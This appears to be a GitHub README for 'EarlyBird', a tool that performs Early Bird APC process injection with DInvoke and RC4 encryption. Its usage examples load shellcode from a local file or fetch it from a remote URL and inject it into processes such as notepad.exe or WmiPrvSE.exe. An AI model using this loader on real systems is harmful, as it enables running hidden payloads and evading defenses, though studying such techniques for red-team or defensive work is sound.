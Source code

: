 EarlyBird APC Injection
===
Implementation of Early Bird APC Injection using DInvoke, with RC4 encryption, and the ability to receive the shellcode locally or remotely (raw and encoded in base64).

Usage
---
```
PS C:\Users\User> [EarlyBird.Program]::Main(@())

Usage [1]: Passing the shellcode locally and using the default process: C:\Windows\System32\notepad.exe
        e.g. EarlyBird.exe -shellcode <shellcode-file>
        e.g. EarlyBird.exe -shellcode C:\Users\user\Desktop\shellcode.sc

Usage [2]: Passing the shellcode remotely and using the default process: C:\Windows\System32\notepad.exe
        e.g. EarlyBird.exe -shellcode <url>
        e.g. EarlyBird.exe -shellcode https://example.com/shellcode.sc

Usage [3]: Passing the base64 encoded shellcode remotely and using the default process: C:\Windows\System32\notepad.exe
        e.g. EarlyBird.exe -shellcode base64:<url>
        e.g. EarlyBird.exe -shellcode base64:https://example.com/shellcode.txt

[i] You can change the target process by passing the -process flag to any of the three ways to run EarlyBird.exe
        e.g. EarlyBird.exe -shellcode base64:https://example.com/shellcode.txt -process C:\Windows\System32\Wbem\WmiPrvSE.exe
```
